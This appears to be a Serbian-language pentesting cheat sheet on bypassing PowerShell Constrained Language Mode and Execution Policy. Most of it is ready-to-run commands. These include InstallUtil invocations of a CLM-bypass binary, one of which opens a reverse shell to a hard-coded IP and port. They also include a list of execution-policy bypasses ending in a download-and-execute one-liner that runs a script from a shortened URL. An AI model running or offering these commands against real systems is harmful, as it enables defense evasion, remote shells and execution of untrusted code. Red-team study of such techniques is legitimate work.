 ## PS Režim ograničenog jezika

PowerShell [**Constrained Language Mode**](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) **zaključava mnoge od funkcija** potrebnih za efikasnu upotrebu PowerShell-a, kao što su blokiranje COM objekata, dozvoljavanje samo odobrenih .NET tipova, XAML baziranih radnih tokova, PowerShell klasa i više.

### **Provera**

```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```

### Zaobilazak

```powershell
#Easy bypass
Powershell -version 2
```

U trenutnom Windows-u taj Bypass neće raditi, ali možete koristiti [**PSByPassCLM**](https://github.com/padovah4ck/PSByPassCLM).\
**Da biste ga kompajlirali, možda će vam biti potrebno** **dodati referencu** -> _Pretraži_ -> _Pretraži_ -> dodajte `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0\31bf3856ad364e35\System.Management.Automation.dll` i **promenite projekat na .Net4.5**.

#### Direktni Bypass:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

#### Obrnuti shell:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

Možete koristiti [**ReflectivePick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) ili [**SharpPick**](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) da **izvršite Powershell** kod u bilo kom procesu i zaobiđete ograničeni režim. Za više informacija pogledajte: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## PS Izvršna politika

Podrazumevano je postavljena na **restricted.** Glavni načini zaobiđavanja ove politike:

```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
```